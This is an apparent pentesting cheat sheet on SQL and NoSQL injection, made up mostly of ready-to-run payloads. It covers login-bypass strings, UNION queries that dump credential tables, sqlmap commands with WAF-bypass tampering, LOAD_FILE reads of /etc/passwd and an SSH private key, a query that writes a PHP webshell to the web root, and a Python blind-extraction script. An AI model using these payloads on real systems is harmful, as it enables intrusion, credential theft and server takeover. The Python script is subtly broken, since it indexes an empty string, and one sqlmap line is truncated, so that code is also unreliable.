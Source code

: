 ```yaml
---
description: >-
  Most modern web applications rely on a database architecture in the back-end
  to manage their data. These databases store and retrieve various types of
  information essential to the application.
---
```


# SQL

MySQL

```bash
# Connect to database
mysql -u root -h 127.0.0.1 -P 3306 -p

# Show all columns
SELECT * FROM table_name

# Show specific column
SELECT column1, column2 FROM table_name

# Result based on string
SELECT * FROM logins WHERE username LIKE 'admin%'

# SQL query from CLI
mysql --host=db --user=root --password=root database -e "show tables"

# SQL query from CLI
mysql -h db -u root -proot database -e 'show tables;'
```

#### MySQL  Authenication Bypass

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

```bash
# Basic bypass
admin' or '1'='1

# Basic bypass with comments
admin')-- -
```

#### Union injection

```bash
# Check number of columns
' order by 1-- -
cn' UNION select 1,2,3-- -

# Basic union injection
cn' UNION select 1,@@version,3,4-- -

# Union injection 4 columns
UNION select username, 2, 3, 4 from passwords-- -
```

#### SQLMap

```bash
# Run SQLmap with data parameter
sqlmap -u http://zencorp.com/book --method POST --data "date=2024-10-17" --batch

# Force SSL
sqlmap -r request --risk=3 --level=3 --batch --force-ssl

# Basic auth and WAF bypass
sqlmap -u 'http://10.10.10.10/login' --form --dbs --batch --level 4 --risk 3 --dbms=mssql --headers="Authorization: Basic c3ZjX2lpczpWaW50YWdlIQ==" --tamper=charencode --technique S
```

#### SQL injection in SOAP using WSDLer

```
# Use burp extension WSDLer to parse document
# Intercept request and run sqlmap

sqlmap -r request --batch --dbs
```

#### Enumeration

<pre class="language-bash"><code class="lang-bash"># Fingerprint 
SELECT @@version

# Sleep command
SELECT SLEEP(5)

# Database name
cn' UNION select 1,database(),2,3-- -

<strong># List all database
</strong>cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

# List all columns
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

# Dump data
cn' UNION select 1, username, password, 4 from dev.credentials-- -
</code></pre>

#### File injection

<pre class="language-bash"><code class="lang-bash"># Read local file
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

# Write string to file
select 'file written successfully!' into outfile '/var/www/html/proof.txt'

# Write webshell 
cn' union select "",'&#x3C;?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

# Read file
SELECT CAST(FILE_READ('/home/zen/user.txt') AS VARCHAR;
CALL+REVEXEC('cat /home/zen/.ssh/id_rsa')%3B

<strong># Boolean check, this will always be true. 
</strong>test' or 1=1;-- -  
</code></pre>

#### Websocket

```bash
sqlmap -u ws://urlhere.dev:9091
sqlmap -u ws://urlhere.dev:9091 --data '{"id": "1234"}' --dbms mysql --batch --lev
```

#### NoSQL  Auth bypass

```bash
# URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

# Using json (change contenttype to application/json)
{"user": "admin", "password": {"$ne": "admin"}}
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
```

#### NoSQL mongosh

```sql
# Connect
mongosh mongodb://127.0.0.1:27017

# Show database, select and describe
show databases
use test
show collections

# Find item
db.movies.find({type: "James Bond"})

# List documents
db.movies.find({})

# Filter on first/last letter
db.accounts.find({ $and: [ { firstName: { $regex: /^R/ } }, { lastName: { $regex: /^D/ } }] });
```

#### NoSQL injection

```bash
curl -s -X POST http://127.0.0.1:3000/api/v1/getUser -H 'Content-Type: application/json' -d '{"username": {"$regex": ".*"}}' | jq
```

the `$regex` operator can coerce the server into returning the information of all users (whose usernames match `/.*/`).

#### NoSQL using Server Side Javascript Injection

```sql
# Login with 
" || true || ""=="

# Full line
this.username === "" || true || ""=="" && this.password === "<password>"

# Blind extraction
" || (this.username.match('^a.*')) || ""=="
```

<details>

<summary>SSJI Blind script</summary>

```python
import requests
from urllib.parse import quote_plus

def get_data(r):
    global num_req
    num_req += 1

    r = requests.post(
        "http://94.237.59.180:41776",
        headers={"Content-Type":"application/x-www-form-urlencoded"},
        data="username=%s&password=x" % (quote_plus('" || (' + r + ') || ""=="'))
    )
    return "Logged in as" in r.text

# Get username regular
num_req = 0
username = ""
i = 0

while username[-1] != "}":
    for c in range(32, 128):
        if get_data('this.username.startsWith("") && this.username.charCodeAt(%d) == %d' % (i, c)):
            username += chr(c)
            break
    i += 1    

print("Username: %s" % username)
print()
```

</details>

